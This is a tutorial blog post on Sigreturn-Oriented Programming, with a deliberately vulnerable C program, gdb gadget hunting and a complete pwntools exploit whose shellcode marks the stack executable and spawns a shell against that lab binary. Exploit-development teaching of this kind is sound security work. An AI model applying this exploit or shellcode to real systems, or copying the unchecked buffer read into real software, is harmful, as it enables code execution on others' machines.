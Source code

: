 ```yaml
---
draft: false
date: 2018-11-04T11:23:06+01:00
title: "Sigreturn-Oriented Programming (SROP)"
description: "Sigreturn-oriented programming (SROP) is a exploit development technique used to execute code."
slug: "sigreturn-oriented-programming-srop"
authors: ["Oussama Amri"]
tags: ["exploit", "srop", "linux"]
categories: []
externalLink: ""
series: []
aliases: ["/post/sigreturn-oriented-programming-srop/"]
---
```


Sigreturn-oriented programming (SROP) is a exploit development technique used to execute code, this attack employs the same basic assumptions behind the return-oriented programming (ROP) technique.

### TL;DR
When a signal occurs, the kernel “pauses” the process’s execution in order to jump to a signal handler routine. In order to safely resume the execution after the handler, the context of that process is pushed/saved on the stack (registers, flags, instruction pointer, stack pointer etc). When the handler is finished, `sigreturn()` is being called which will restore the context of the process by popping the values off of the stack. That’s what is being exploited in that technique.

### Differences from ROP
SROP exploits are usually portable across different binaries with minimal or no effort and allow easily setting the contents of the registers, which could be non-trivial or unfeasible for ROP exploits if the needed gadgets are not present. Moreover, SROP requires a minimal number of gadgets (ROP) and allows constructing effective shellcodes by chaining system calls.

### Sigcontext Structure
The attack works by putting on the call stack a forged `sigcontext structure` and then overwriting the return address with the location of a gadget that allows the attacker to call the `sigreturn()`
{{< figure src="/img/Sigreturn-oriented-programming-SROP/sigcontext_structure.jpg" width="60%" >}}

>  The sigcontext structure length is 248 Bytes, ignore the first 8 Byte `rt_sigreturn()`

### Attacks

#### ROP Gadget
In order to achieve this attack we need first ROP gadgets to do :

```nasm
# x64
mov eax, 0x0f; syscall; ret

# x86
mov eax, 0x77; int 0x80; ret

```
#### Example : srop.c
This is our example to perform SROP attack.

```c
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
       __asm__("syscall; ret;");
}

void set_rax(){
       __asm__("movl $0xf, %eax; ret;");
}

int main(){
       // ONLY SROP!
       char buff[100];
       printf("Buff @%p, can you SROP?\n", buff);
       read(0, buff, 5000);
       return 0;
}
```
#### Finding The Crash
```shell
root@kali:~/srop# python -c 'print "A" * 120 + "BBBB"' | ./srop
Buff @0x7fff7f78eb30, can you SROP?
Segmentation fault

root@kali:~/srop# dmesg | tail
[  258.498005] IPv6: ADDRCONF(NETDEV_CHANGE): eth0: link becomes ready
[  264.546090] e1000: eth0 NIC Link is Down
[  268.579755] e1000: eth0 NIC Link is Up 1000 Mbps Full Duplex, Flow Control: None
[ 2196.793909] srop[2120]: segfault at 7f0a42424242 ip 00007f0a42424242 sp 00007fff7f78ebb0 error 14

```
As we can see the rip offset to overwrite will be at 120.

#### Finding Gadgets

```shell
root@kali:~/srop# gdb ./srop -q
Reading symbols from ./srop...(no debugging symbols found)...done.
gdb-peda$ disassemble syscall_
Dump of assembler code for function syscall_:
   0x0000000000401132 <+0>:     push   rbp
   0x0000000000401133 <+1>:     mov    rbp,rsp
   0x0000000000401136 <+4>:     syscall
   0x0000000000401138 <+6>:     ret    
   0x0000000000401139 <+7>:     nop
   0x000000000040113a <+8>:     pop    rbp
   0x000000000040113b <+9>:     ret    
End of assembler dump.
gdb-peda$ disassemble set_rax
Dump of assembler code for function set_rax:
   0x000000000040113c <+0>:     push   rbp
   0x000000000040113d <+1>:     mov    rbp,rsp
   0x0000000000401140 <+4>:     mov    eax,0xf
   0x0000000000401145 <+9>:     ret    
   0x0000000000401146 <+10>:    nop
   0x0000000000401147 <+11>:    pop    rbp
   0x0000000000401148 <+12>:    ret    
End of assembler dump.
gdb-peda$

```
As we can see we have what we want to setup the stack for Sigreturn() syscall.

#### Exploit
```python
#!/usr/bin/python
from pwn import *

context.clear(arch="amd64")
p = process("./srop")

# ENTRIES : ROP gadgets
syscall_ret = 0x0401136
mov_rax_15_ret = 0x0401140
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Leak
buff_leak = p.recv()
stack_leak = buff_leak[6:17] + "000"
stack_addr = int(stack_leak, 16)
shellcode_addr = int(buff_leak[6:20], 16)
p.info("Stack at : " + str(hex(stack_addr)))
p.info("Shellcode at : " + str(hex(shellcode_addr)))

# Exploit
payload = shellcode
payload += "A" * (120-len(shellcode))
payload += p64(mov_rax_15_ret)
payload += p64(syscall_ret)

frame = SigreturnFrame(kernel="amd64") # CREATING A SIGRETURN FRAME
frame.rax = 10 # MPROTECT SYSCALL
frame.rdi = stack_addr # base address
frame.rsi = 1000 # size
frame.rdx = 7 # SET RDX => RWX PERMISSION
frame.rsp = shellcode_addr + len(payload) + 248 # WHERE 248 IS SIZE OF FAKE FRAME!
frame.rip = syscall_ret # SET RIP TO SYSCALL ADDRESS
payload += str(frame)
payload += p64(shellcode_addr) # WHERE IT GOING TO RETURN ( shellcode )

# Sending Payload
p.sendline(payload)

p.interactive()
```


#### Download:
* [srop.zip](/files/Sigreturn-oriented-programming-SROP/srop.zip)

#### References:
* [wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming)
* [0x00sec](https://0x00sec.org/t/srop-signals-you-say/2890)